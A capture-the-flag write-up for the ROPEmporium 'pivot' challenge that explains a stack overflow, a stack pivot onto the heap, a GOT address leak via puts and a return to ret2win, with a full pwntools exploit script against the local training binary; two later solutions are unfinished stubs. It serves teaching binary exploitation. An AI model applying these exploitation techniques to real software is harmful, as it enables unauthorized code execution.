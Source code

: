 # "pivot" ROPEmporium Challenge 7 Writeup

The usual...

```sh
checksec --file=pivot
checksec --file=libpivot.so
rabin2 -z pivot
rabin2 -z libpivot.so
objdump -d pivot
objdump -d libpivot.so
```

`libpivot` contains a `foothold_function` which is also imported into `pivot`
as `foothold_function@plt`, but never called.
Furthermore, there is a `ret2win` function within `libpivot`, it is our goal
to call it, however `ret2win` has no `plt` entry in our main `pivot`
executable.

The `pivot`'s main allocates some memory on the heap, then passes a pointer to
this forward to `pwnme`.
The heap address is already being leaked by the app itself, we don't need to
do anything in that regard.
`pwnme` first reads 256 (0x100) bytes into this heap region, then reads another
64 (0x40) bytes onto the stack (where only 0x20 or 32 bytes should've been
read).

```
gdb ./pivot
b *pwnme+165 # break before the second read onto the stack
r
hello, world # first read onto heap, type in some stuff
# breakpoint hit
pattern create 200
c
# copy-paste pattern as input to second read
# Segmentation fault
x/x $rsp
# 0x4141464141304141
pattern offset 0x4141464141304141
# 4702116732032008513 found at offset: 40
```

In order to call `ret2win` we need to know its real address.
The ROPEmporium suggests a few different approaches.

## Solution 1

> There are a few different ways you could approach this problem; printing
> functions like puts() can be used to leak values from the binary, after which
> execution could be redirected to the start of main() for example, where
> you're able to send a fresh ROP chain that contains an address calculated
> from the leak.

- Use `puts` or `printf` to leak the address of `foothold_function`.
  Note that in order to get the correct address, `foothold_function` needs to
  be called once first for the address to be resolved, only then we can leak
  it.
- Having leaked the address, we jump back to `main` to run another ROP-chain.
- Since we have the binary, we know the offset of both `foothold_function`
  (0x096a) and `ret2win` (0x0a81).
- `ret2win`'s real address must then be `foothold_function@got.plt - 0x096a +
  0x0a81`.

But just how does this PLT business work?

```
0000000000400720 <foothold_function@plt>:
  400720:       ff 25 1a 09 20 00       jmpq   *0x20091a(%rip)        # 601040 <foothold_function>
  400726:       68 05 00 00 00          pushq  $0x5
  40072b:       e9 90 ff ff ff          jmpq   4006c0 <.plt>
```

The first `jmp` instruction points to an entry in the `.got.plt` section.
At first, this entry points right back to the `push` instruction on the next
line.

![GDB shows us that the jmp instruction resolves back to the next line, the push instruction.](pivot-foothold-before-call.png)

An offset identifying the function to be resolved is pushed onto the stack
(`pushq  $0x5`), then the dynamic loader is called (`jmpq   4006c0 <.plt>`)
to resolve the function's address for us.
The loader updates the pointer in the `.got.plt` section so that it points
to the function's resolved address.

In all future calls the `jmp` will directly go to the right address.

![In GDB we can now see that the function pointer has been updated, pointing to the resolved address.](pivot-foothold-after-call.png)

Using pwntools we obtain the pointer into the `.got.plt` section using
`elf.got['function_name']`.

We can also list the different sections with `readelf -S pivot` and specifically
the contents of the `.got.plt` section by using `readelf -r pivot`.

```
Relocation section '.rela.plt' at offset 0x5c8 contains 9 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
000000601040  000800000007 R_X86_64_JUMP_SLO 0000000000000000 function_name + 0
# this ----^
# ... SNIP: other entries ..
```

[This blog](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)
provides a more detailed explanation.

We use the `pwntools` library to create an exploit script.

```python
#!/usr/bin/env python3
from pwn import *
context.bits = 64
context.arch = 'amd64'

process_name = './pivot'
lib_name = './libpivot.so'
elf = ELF(process_name)
libelf = ELF(lib_name)
rop = ROP(elf)

DEBUG = True
DEBUG_ARGS = '''
# ret of pwnme
b *pwnme+182
b main
# pop rdi; ret gadget
#b *0x400a33
'''

if DEBUG:
    p = gdb.debug(process_name, DEBUG_ARGS)
else:
    p = process(process_name)
```

When run, the app voluntarily leaks the heap address, we parse it using:

```python
p.recvuntil(b'place to pivot: ')
heap_address = p.recvuntil(b'Send a ROP')
heap_address = heap_address.replace(b'\nSend a ROP', b'')
heap_address = int(heap_address, 16)
info('READ HEAP ADDRESS: %s' % hex(heap_address))
```

Because there is not enough space in our buffer overflow, we make the stack
pointer point to the leaked heap address, effectively moving the stack into a
much bigger area under our control.

We find a gadget to `pop rsp`:

```python
pop_rsp = rop.find_gadget(['pop rsp'])[0]
# Gadget(0x400a2d, ['pop rsp', 'pop r13', 'pop r14', 'pop r15', 'ret'], ['rsp', 'r13', 'r14', 'r15'], 0x28)
```

It also pops three more registers, we just put dummy values in them.

```python
pop_rsp = rop.find_gadget(['pop rsp'])[0]

stack_payload  = b'A'*40 # overflow buffer
stack_payload += p64(pop_rsp)
stack_payload += p64(heap_address)

assert len(stack_payload) <= 64, "Stack payload must NOT be larger than 64 bytes!"
p.sendline(stack_payload)
```

After popping the leaked heap address into $rsp, the next value will be popped
from our heap memory, so we write the rest of our ROP-chain there:

The `foothold_function` is imported into our binary, therefore there is a
`.plt` entry:

```
0000000000400720 <foothold_function@plt>:
  400720:       ff 25 1a 09 20 00       jmpq   *0x20091a(%rip)        # 601040 <foothold_function>
  400726:       68 05 00 00 00          pushq  $0x5
  40072b:       e9 90 ff ff ff          jmpq   4006c0 <.plt>
```

We resolve `foothold_function` and then leak its address.
This done with a little detour over an extra `ret` (otherwise a `movaps`
instruction within `buffered_vfprintf()` would crash our process due to our
messing with the stack making it unaligned) we go back to `main`.

```python
foothold_plt = elf.plt['foothold_function']
foothold_got = elf.got['foothold_function']
puts_plt     = elf.plt['puts']
main_func    = elf.sym['main']

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret     = rop.find_gadget(['ret'])[0]

heap_payload  = p64(0x13) + p64(0x14) + p64(0x15)                # dummy values
heap_payload += p64(foothold_plt)                                # call foothold to resolve its address
heap_payload += p64(pop_rdi) + p64(foothold_got) + p64(puts_plt) # load foothold's resolved address into $rdi, call puts to print it out
heap_payload += p64(ret)                                         # extra padding for stack alignment
heap_payload += p64(main_func)                                   # re-run from main

assert len(heap_payload) <= 256, "Heap payload must NOT be larger than 256 bytes!"
p.sendline(heap_payload)
```

Meanwhile we use `pwntools` to parse the leaked address from `stdout`.
To calculate the library base, we subtract the function's offset from its
leaked address.

```python
p.recvuntil(b'gain a foothold into libpivot\n')
leaked_foothold_got = p.recvuntil(b'\n')
leaked_foothold_got = leaked_foothold_got.replace(b'\n', b'')
leaked_foothold_got = u64(leaked_foothold_got.ljust(8, b'\x00'))
info('LEAKED FOOTHOLD GOT: %s' % hex(leaked_foothold_got))
libelf.address = leaked_foothold_got - libelf.symbols['foothold_function']
info('FOUND FOOTHOLD BASE @ %s' % hex(libelf.address))
```

On the second run from `main` we just input dummy text into the heap, this
time our payload is small enough to fit on the stack.
Now that we know the real addresses of any of the library's functions, we can
easily return to `ret2win` completing the challenge.

```python
p.recvuntil(b'> ') # wait till the program is ready to process input
p.sendline(b'WHATEVER')

second_stack_payload  = b'A'*40                    # overflow stack
second_stack_payload += p64(libelf.sym['ret2win']) # jump directly to the resolved address

assert len(second_stack_payload) <= 64, "Stack payload must NOT be larger than 64 bytes!"
p.sendline(second_stack_payload)
```

<details>
<summary>The full exploit script</summary>

```python
#!/usr/bin/env python3
from pwn import *
context.bits = 64
context.arch = 'amd64'

process_name = './pivot'
lib_name = './libpivot.so'
elf = ELF(process_name)
libelf = ELF(lib_name)
rop = ROP(elf)

DEBUG = False
DEBUG_ARGS = '''
# ret of pwnme
b *pwnme+182
b main
# pop rdi; ret gadget
#b *0x400a33
'''

if DEBUG:
    p = gdb.debug(process_name, DEBUG_ARGS)
else:
    p = process(process_name)

foothold_plt = elf.plt['foothold_function']
foothold_got = elf.got['foothold_function']
puts_plt     = elf.plt['puts']
main_func    = elf.sym['main']

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsp = rop.find_gadget(['pop rsp'])[0]
ret     = rop.find_gadget(['ret'])[0]

# The make the challenge simpler, the app will helpfully print out the heap
# address.
p.recvuntil(b'place to pivot: ')
heap_address = p.recvuntil(b'Send a ROP')
heap_address = heap_address.replace(b'\nSend a ROP', b'')
heap_address = int(heap_address, 16)
info('READ HEAP ADDRESS: %s' % hex(heap_address))

# First we can write up to 256 (0x100) bytes onto the heap.
# Our pop_rsp gadget (used further down) first make the stack point to here,
# then it will pop the three registers r13, r14, and r15.
heap_payload  = p64(0x13) + p64(0x14) + p64(0x15)
heap_payload += p64(foothold_plt)                                # call foothold to resolve its address
heap_payload += p64(pop_rdi) + p64(foothold_got) + p64(puts_plt) # load footholds resolved address into $rdi, call puts to print it out
heap_payload += p64(ret) # extra padding for stack alignment
heap_payload += p64(main_func)                                   # re-run from main

assert len(heap_payload) <= 256, "Heap payload must NOT be larger than 256 bytes!"
p.sendline(heap_payload)

# Then we read up to 64 (0x40) bytes onto the stack.
stack_payload  = b'A'*40 # overflow buffer
stack_payload += p64(pop_rsp)
stack_payload += p64(heap_address)

assert len(stack_payload) <= 64, "Stack payload must NOT be larger than 64 bytes!"
p.sendline(stack_payload)

p.recvuntil(b'gain a foothold into libpivot\n')
leaked_foothold_got = p.recvuntil(b'\n')
leaked_foothold_got = leaked_foothold_got.replace(b'\n', b'')
leaked_foothold_got = u64(leaked_foothold_got.ljust(8, b'\x00'))
info('LEAKED FOOTHOLD GOT: %s' % hex(leaked_foothold_got))
libelf.address = leaked_foothold_got - libelf.symbols['foothold_function']
info('FOUND FOOTHOLD BASE @ %s' % hex(libelf.address))

# At this point we have restarted the app from main.
# This run we use the calculated addresses to call ret2win directly from pwnme.
p.recvuntil(b'> ')                                                                 # wait till the program is ready to process input
p.sendline(b'Thank you heap you\'ve been very useful, but I won\'t need you now!') # this time we won't need the heap

second_stack_payload  = b'A'*40                    # overflow stack
second_stack_payload += p64(libelf.sym['ret2win']) # jump directly to the resolved address

assert len(second_stack_payload) <= 64, "Stack payload must NOT be larger than 64 bytes!"
p.sendline(second_stack_payload)

p.interactive()
```
</details>

Result:

![The exploit script is run and the flag is printed out to the terminal.](pivot-sol1.png)

## Solution 2

> Another solution could be to modify a .got.plt entry in-place using a write
> gadget, then calling the function whose entry you modified.

- ?????
- Modify a `.got.plt` entry in-place using a write gadget, then call the
  function whose entry we modified.
- ?????

## Solution 3

> You could also read a .got.plt entry into a register, modify it in-memory,
> then redirect execution to the address in that register.

- Call `foothold_function@plt` once, so that its address is resolved.
- Read its `.got.plt` entry into a register, modify it in-memory, redirect
  execution to the address in the register.
- To call `ret2win` we modify the address to be `foothold_function@got.plt -
  0x096a + 0x0a81`

